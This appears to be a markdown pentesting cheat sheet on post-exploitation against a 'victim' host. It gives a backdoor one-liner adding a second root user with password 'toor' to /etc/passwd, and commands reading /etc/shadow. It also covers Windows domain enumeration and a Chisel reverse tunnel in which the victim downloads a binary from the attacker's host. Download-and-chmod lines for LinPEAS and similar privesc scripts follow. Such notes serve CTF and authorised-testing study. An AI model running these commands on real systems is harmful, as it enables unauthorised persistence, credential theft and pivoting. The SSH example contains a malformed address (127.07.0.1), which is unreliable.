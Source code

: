 # Persistence (Maintaining Access) - Privilege Escalation

After the elevation of privileges phase, comes the establishment of a constant access to the target (backdoor, persistence module...).

```bash
echo "root2:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> /etc/passwd # to create another root user
```


## User information gathering

Once we have a shell on the victim, we can get a lot of information about the target with the following commands


### Linux

```bash
# DNS configuration
cat /etc/resolv.conf
# configuration file containing details about user accounts
cat /etc/passwd
# stores the hashed passphrase for Linux user account
cat /etc/shadow
```

```bash
whoami # Display the username associated with the current effective UID.
who -a # Display information about all connected users.
```

```bash
ip a # shows (IPv4 or IPv6) addresses on a device.
iptables -L  # List all firewall rules.
# displays the routing table
ip r
netstat -r
# displays systems information
uname -a
```

```bash
ps aux
# List packages matching given pattern.
dpkg -l <pattern> list | grep installed
```

### Windows

```shell
ipconfig /all
ipconfig /displaydns
netstat -bnao
netstat -r

net view
net view /domain
net user /domain
net user %username% /domain
net accounts
net localgroup administrators
net group "Domain controllers" /domain
net share
```


## Linux Privilege Escalation

```bash
sudo -l # checks current privileges
cat /etc/sudoers.d/[filename]

netstat -ltupn # listening ports
ss -tulw # listening ports

cat /etc/crontab # checks cronjob
```

### FIND

```bash
find / -iname "*config*.php" 2>/dev/null # looking for config files - cat [filename] | grep -i "db_"
find / -user root -perm -u=s 2>/dev/null # Find all files/dirs that are owned by root and have at least the SUID permission

find / -group [name] 2>/dev/null # Find all files/dirs owned by a group
find / -user [username] 2>/dev/null # Find all files/dirs owned by a user

-perm 444 # exactly readable by everyone
-perm /444 # only readable by everyone

-exec [command] [option] {}\; 2>/dev/null # {} corresponds to the files returned by the find command
```

### Capabilities

```bash
getcap -r / 2>/dev/null # scan the system for capabilities.
```

### GREP

```bash
grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" # grep ip addresses from your output.
grep -rni "somethingToLookFor" / 2>/dev/null
```

## Port forwarding

**[Using Chisel](https://github.com/jpillora/chisel)**

```bash
# on the attacker
cd /path/where/chisel/is # binary file
updog # or any other command to setup an http server

# on the victim
wget IP:PORT/chisel
chmod +x chisel # set it executable

# on the attacker
chisel server --reverse --port 9002 # port forwarding

# on the victim
./chisel client YOUR_IP:9002 R:9001:[redirectedIP]:[redirectedPort]

# Now you have access on the attacker's machine to : localhost:9001
```

**Using SSH**
```bash
ssh -N user@[IP_distant] -L [@_redirection_machine]:[port_redirection]:[IP_redirigee]:[port_redirige]
```

Example:
```bash
ssh -N user@10.10.10.10 -L 127.07.0.1:4441:192.168.0.100:80
```
On the `10.10.10.10` machine, `user` is running a web server on its `192.168.0.100:80` interface. Here, we're redirecting to the `127.0.0.1` address and port 4441. So from the browser, http://127.0.0.1:4441 is reachable. By specifying a proxy on `172.17.0.2:4440`, it is possible to modify the requests on Burpsuite if needed.


### Automated scripts for linux privesc

**[LSE - linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)**
```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh

curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh;chmod 700 lse.sh
```

**[LES - linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)**
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh;chmod 700 les.sh
```

**[LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)**
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -Lo lPEAS.sh;chmod 700 lPEAS.sh
```


